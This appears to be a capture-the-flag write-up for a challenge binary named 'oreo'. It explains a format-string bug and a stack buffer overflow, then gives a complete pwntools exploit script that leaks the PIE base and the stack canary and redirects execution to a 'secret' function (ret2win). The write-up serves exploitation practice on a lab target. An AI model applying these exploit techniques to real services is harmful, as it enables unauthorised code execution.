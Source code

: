 ⇒ The scanf read until byte “\n” → overflow buffer quiz on bss, then copy to bufer dest on the stack.


* Exploit chains:

  - Use bug format string to leak base binary address and canary
  - Use bug Buffer overflow to overwrite return address of **`mine`** function to **`secret`** (ret2win)

* Script:

```python
""" ============================ Import ============================ """
from pwn import *
from pwn import p32, u32, p64, u64
import sys
""" ============================ Import ============================ """

libc = ELF("./libc.so.6", checksec=False)
context.binary = elf = ELF("./oreo_patched")
gs="""
brva 0x1762
brva 0x14F9
"""

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug(["./oreo_patched"] + argv, gdbscript=gs, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process(["./oreo_patched"] + argv, *a, **kw)

def operation(op: bytes):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", op)

# fmt bug
def oreo():
    io.sendlineafter(b"> ", b"2")
    io.recvuntil(b"[ERROR] ")
    return io.recvline().split(b"==========menu==========")[0]

# bof bug
def mine(buf: bytes):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", buf)

if __name__ == "__main__":
    io = start()
    
    # Leak pie 0x168f
    operation(b"%11$p")
    elf.address = int(oreo(), 16) - 0x168f
    info("Leak pie: " + hex(elf.address))

    # Leak canary
    operation(b"%9$p")
    canary = int(oreo(), 16)
    info("Leak canary: " + hex(canary))

    # some gacha ???
    mine(p64(canary+1)*5 + p64(elf.sym["secret"]))
    mine(b"a"*24)
    mine(b"quit")
```